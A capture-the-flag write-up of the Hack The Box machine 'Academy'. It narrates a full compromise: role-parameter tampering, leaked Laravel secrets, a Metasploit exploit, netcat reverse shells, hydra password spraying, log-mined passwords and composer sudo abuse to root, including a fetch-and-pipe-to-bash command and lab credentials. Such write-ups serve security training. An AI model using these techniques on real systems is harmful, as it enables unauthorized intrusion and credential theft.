



Introduction:
Hi guys im back with another writeup on Academy.
I've been focusing on binary exploitation and school work lately so didn't have much time to do boxes.
Academy is a pretty easy but fun box, that requires you to exploit a web application to get foothold and dig up a password to get user.
Once you become user, you are given access to some logs, which you can parse and move laterally to another user.
This time, you are given sudo privileges, which you can use to your advantage and get a root shell.
Nmap:
As usual, let's start with a nmap scan on our target:
nmap shows us that only three ports are open. port 22 running ssh, port 80 running http and port 33060 running mysqlx.
Let's run nmap again with the -A flag to intensively scan these ports, while we go ahead and look at the webpage.
Web Enumeration:
Navigating to http://10.10.10.215, we get an error saying "server not found".
However, the url tells us that we got redirected to http://academy.htb, which was not in our hosts file and thus could not be resolved.
To help firefox resolve this domain, we just need to add an entry in /etc/hosts.
Now we should be able to view the page when we navigate to it.
We see a simple home page that allows us to login and register.
Let's set up a ffuf scan in the background, then try to register an account and log in.
I registered an account with the username testacc and password testacc.
However when I log in, I got an account belonging to egre55.
I tried registering different usernames but still got the same account.
At this point I thought either the page is static, or there are some other ways of determining your account name.
I'll send the request through burp suite to see what exactly is going on.
And indeed, there is a roleid parameter that is set to 0 for every account we register.
I tried changing it to -1 but it didn't trigger anything.
My next step will be to create a bunch of accounts with different roleid's and check if anything interesting happens.
I'll set up a pitchfork attack in burp suite to do that.
We can take a look at our ffuf scan results while the attack is running.
Seems like there is an admin.php page present. Let's check it out.
This should be the administrator login page.
I wrote a python script to test if any of the accounts have something different.

The script will notify us if any accounts are able to log in to the admin page, or if the account name changes.
Seems like roleid=1 has something to offer!
Let's try to log in to the admin page.
and it works! We now see a page that seems like a task planner.
Reading through the tasks, we find a subdomain dev-staging-01.academy.htb.
Let's again add it to our hosts file.
Now we can navigate to this site.
dev-staging-01.academy.htb:
We just see a pretty messy error page.
However if we spend some time to read through, we can find a ton of interesting information.
We can deduce that the site most likely runs laravel, a PHP web development framework.
We also get very sensitive information such as the webroot directory, laravel's app key and even database credentials.
Now let's try searching for vulnerabilities with searchsploit.
I was unable to find out the version of laravel this site is using, so let's just give the highest version a try.
Let's boot up metasploit and locate the module.

metasploit is really user friendly, and we can just fill in the relevant information.
Remember to set the VHOST as dev-staging-01.academy.htb so the exploit can be fired at the correct target.

Launch the exploit, and we get an interactive shell.
This shell is pretty bad though. I'll prefer a proper netcat reverse shell with tab completion and ability to clear screen.
We can upgrade the shell by sending it to netcat and using the stty trick.
Now we have a fully interactive shell on the machine as www-data.
Getting User:
As always let's run linpeas.sh to enumerate the system.
I hosted a webserver locally with python and transferred the script with wget.
A good practice is to use wget X.X.X.X/XX -O - | bash when transferring shell scripts to run, to prevent dropping the script to disk.
The script found some usernames, passwords and interesting information.
users:
Users can also be found manually by looking at the /etc/passwd file.
egre55 has sudo capabilities, so he might be a valuable target to move laterally to.
passwords:
Some of these are just default passwords for testing, but since we are doing a ctf it doesn't hurt to try.
We can generate a username list and a password list with these information.
The next step will be to test for password re-use with hydra.
hydra against ssh:
We get a working set of credentials cry0l1t3:mySup3rP4s5w0rd!!.
and now we can just ssh in and get the user flag.
Getting Root:
I'll run linpeas.sh again with this user.

Our current user is able to read some logs.
Let's transfer the logs back to our machine with scp.
Now we can decompress the logs and try to extract some information from them.
I'm mainly interested in the audit logs, as it records events and activities happening in the system.
Commands ran by users are recorded in the comm field.
Data passed to the commands will be recorded in a data field as hex.
We can try grepping for commands that require passwords, like sudo or su.
With some grep-fu, we get another password.
Let's add this password to our list and try to spray it again with hydra.

Now we have another set of credentials that can be used to ssh in as mrb3n.
The first thing I'll always check for is sudo privileges.
We see that mrb3n can run composer as root.
composer is a dependency manager for PHP, that can be used to run scripts.
A quick search on gtfobins tells us how to execute arbitrary commands with it.
I'll change the payload to get a working netcat reverse shell.
run it
and we are root!
Conclusion:
Academy is a pretty easy box that doesn't involve complex exploits, but instead touches more on the importance of proper enumeration.
Sometimes it's easy to overlook the output of tools and their capabilities, and this box definitely helped me to better understand the tools I use.
Once again this emphasized the saying "information gathering is the nature of penetration testing".
Thanks to the creators of the machine and HTB for hosting it~.